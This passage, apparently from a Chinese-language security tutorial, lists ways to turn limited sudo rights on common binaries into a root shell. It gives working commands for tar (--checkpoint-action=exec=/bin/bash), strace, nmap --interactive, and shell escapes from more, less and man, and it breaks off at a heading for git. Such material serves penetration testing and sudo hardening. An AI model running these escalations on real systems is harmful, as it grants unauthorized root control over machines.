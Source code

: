 [![](https://p4.ssl.qhimg.com/t01507ae2a0fdc7d0bb.png)](https://p4.ssl.qhimg.com/t01507ae2a0fdc7d0bb.png)

test 用户是个普通用户，申请sudo 授权tar命令

然后执行：

`sudo tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash`

成功提权成完整root权限

简单解释下 提权是如何实现的

[![](https://p5.ssl.qhimg.com/t01f467e635995d80ae.png)](https://p5.ssl.qhimg.com/t01f467e635995d80ae.png)

–checkpoint-action 选项是提权点，可以自定义需要执行的动作，当然是以root权限执行

这里指定为exec=/bin/bash，以root权限执行/bin/bash，获取一个root权限的shell

### 3）strace

[![](https://p4.ssl.qhimg.com/t01830ca25b8667615a.png)](https://p4.ssl.qhimg.com/t01830ca25b8667615a.png)

简单解释下 提权是如何实现的

strace 以root权限运行跟踪调试/bin/bash, 从而获取root权限的shell

### 4）nmap

[![](https://p0.ssl.qhimg.com/t01c617fe4e193dd2bd.png)](https://p0.ssl.qhimg.com/t01c617fe4e193dd2bd.png)

以root权限执行nmap ，然后nmap执行脚本，脚本执行/bin/sh, 获取root 权限shell

如果是老版本的nmap，还可以换一种姿势利用nmap 实现root 提权

```
sudo nmap --interactive
nmap&gt; !sh
sh-4.1#
```

### 5） more<br>[![](https://p2.ssl.qhimg.com/t01216fe6e882adaf58.png)](https://p2.ssl.qhimg.com/t01216fe6e882adaf58.png)

`sudo more /etc/rsyslog.conf`

然后键入

!/bin/bash 即可获取root权限的shell

同理的命令还有 less 和 man （sudo man ssh）

### 6) git

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0106e642a4a04d744c.png)
